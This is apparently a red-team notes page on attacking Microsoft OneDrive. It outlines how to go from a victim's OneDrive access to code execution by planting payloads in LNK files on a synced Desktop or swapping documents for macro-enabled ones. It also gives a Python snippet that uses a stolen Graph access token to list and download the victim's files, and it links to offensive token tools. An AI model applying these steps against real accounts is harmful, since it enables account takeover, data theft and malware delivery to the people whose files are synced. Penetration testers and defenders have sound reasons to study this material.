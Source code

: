 ```yaml
---
title: OneDrive
---
```


> Under construction 🚧

OneDrive access to code execution on a computer:

- login to victim account, check last edited office documents
- `~/Desktop` is often synced with OneDrive, e.g. embed payload in LNK file
- otherwise replace documents with macro-enabled format and embed payload

Download files from OneDrive with Python ([source](https://twitter.com/OutflankNL/status/1623665284744679424/)).

~~~ python
# pip3 install --user o365
from O365 import MSOffice365Protocol, MSGraphProtocol, EnvTokenBackend, Account
import os

os.environ['MSGRAPHTOKEN'] = '{"access_token":"eyJ0..."}'

credentials = ('id', 'secret')
msgraph = Account(credentials, token_backend=EnvTokenBackend('MSGRAPHTOKEN'), protocol=MSGraphProtocol())

# list files in OneDrive
drive = msgraph.storage().get_default_drive()
list(drive.get_items())

# download file
drive.get_item_by_path('/doucment.docx').download('downloads')
~~~

To search for credentials in OneDrive see [[notes/m365/sharepoint]].

Untested tools:

- [OneDriveExplorer](https://github.com/Beercow/OneDriveExplorer), CLI and GUI to reconstruct OneDriver folder hierarchy from `$usercid.dat` and `$usercid.dat.previous`
- [Token Farm](https://github.com/rootsecdev/Azure-Red-Team/tree/master/Tokens), python scripts to access Outlook emails and OneDrive
